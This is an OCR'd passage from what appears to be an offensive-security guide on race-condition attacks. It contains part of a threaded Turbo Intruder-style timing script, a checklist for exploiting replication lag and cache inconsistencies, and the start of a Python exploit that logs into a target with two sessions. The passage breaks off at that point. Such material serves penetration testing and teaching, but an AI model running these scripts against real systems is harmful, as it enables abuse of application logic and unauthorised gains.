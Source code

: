          # Function to send fast request after delay
         def send_fast():
             # Wait to align with processing window of slow request
             time.sleep(0.2)
             engine.queue(fast_req)
         
         # Start separate threads for timing control
         import threading
         
         slow_thread = threading.Thread(target=send_slow)
         fast_thread = threading.Thread(target=send_fast)
         
         slow_thread.start()
         fast_thread.start()
         
         slow_thread.join()
         fast_thread.join()
     
     def handleResponse(req, interesting):
         table.add(req)
     ```

  3. **Exploiting distributed systems**:
     - Identify applications with distributed backend components
     - Look for synchronization issues between distributed components
     - Target race conditions that exploit replication lag or caching
     - Design attacks that target inconsistencies in distributed state
     - Example attack targeting cache/database inconsistency:
     ```python
     import requests
     import threading
     import time
     
     def exploit_cache_db_race(base_url, username, password):
         # Create two sessions
         cache_session = requests.Session()
         db_session = requests.Session()
         
         # Login with both sessions
         cache_session.post(
             f"{base_url}/login",
             json={"username": username, "password": password}
         )
         
         db_session.post(
             f"{base_url}/login",
             json={"username": username, "password": password}
         )
         